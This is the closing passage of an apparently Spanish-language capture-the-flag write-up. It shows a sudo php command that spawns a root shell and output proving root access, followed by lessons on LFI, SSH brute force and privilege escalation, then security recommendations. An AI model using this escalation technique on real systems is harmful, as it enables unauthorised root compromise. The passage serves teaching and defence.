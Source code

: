 Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/php -r "system('/bin/bash');"
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@f2c77ffc68a5:/home/seller# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a detectar un **LFI**
2. Aprendimos a ver usuarios del sistema mediante un **LFI**
3. Aprendimos a realizar ataque de fuerza bruta por **ssh**
4. Explotamos el binario de **php** para obtener privilegios de **root**

## Recomendaciones de Seguridad
- Sanitizar los parametros de la consulta **php**
- Contrasenas mas robustas para los usuarios del sistema.